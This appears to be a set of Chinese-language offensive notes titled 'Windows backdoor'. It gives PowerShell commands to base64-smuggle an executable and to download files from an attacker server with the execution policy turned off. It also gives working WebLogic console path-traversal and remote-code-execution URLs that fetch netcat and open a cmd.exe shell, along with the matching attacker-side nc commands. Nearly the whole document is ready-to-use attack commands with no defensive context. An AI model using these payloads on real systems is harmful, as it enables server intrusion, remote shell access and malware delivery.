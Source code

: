 ```yaml
---
title: Windows后门 
tags: None
---
```



将exe先作base64加密，通过cmd上传后解密输出 对exe作base64加密的方法：
（1）powershell
$PEBytes = [System.IO.File]::ReadAllBytes("C:\windows\system32\calc.exe")
$Base64Payload = [System.Convert]::ToBase64String($PEBytes)
Set-Content base64.txt -Value $Base64Payload
运行后会将C:\windows\system32\calc.exe作base64加密并输出到base64.txt
解密base64文件并生成exe的方法：
（1）powershell
$Base64Bytes = Get-Content base64.txt
$PEBytes= [System.Convert]::FromBase64String($Base64Bytes)
Set-Content calc.exe -Value $PEBytes


远程文件下载：
powershell Set-ExecutionPolicy Unrestricted -Scope CurrentUser;(new-object System.Net.WebClient).DownloadFile('http://192.168.1.157:8000/1.txt','3.exe')
注意：powershell单引号与双引号的区别，上面只能用单引号；如果远程漏洞是java环境，那么单引号需要转义，形如
cmd /c powershell Set-ExecutionPolicy Unrestricted -Scope CurrentUser;(new-object System.Net.WebClient).DownloadFile(\'http://192.168.1.157:8000/1.txt\',\'3.exe\')


weblogic中
命令执行：http://192.1:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22)
(1)
绕过：http://127.0.0.1:7001/console/css/%252e%252e%252fconsole.portal

下载netcat.exe，http://192.168.1.110:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27cmd%20/c%20powershell%20Set-ExecutionPolicy%20Unrestricted%20-Scope%20CurrentUser;(new-object%20System.Net.WebClient).DownloadFile(%5C'http://192.168.1.157:8000/netcat/nc.exe%5C',%5C'netcat.exe%5C')%27);%22)
（2）
反弹
Victim：cmd /c netcat.exe -lvp 9999 -e cmd.exe

Attacker：nc 192.168.1.110 9999

http://192.168.1.110:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27cmd%20/c%20netcat.exe%20-lvp%209988%20-e%20cmd.exe%27);%22)

kali：nc 192.168.1.110 9999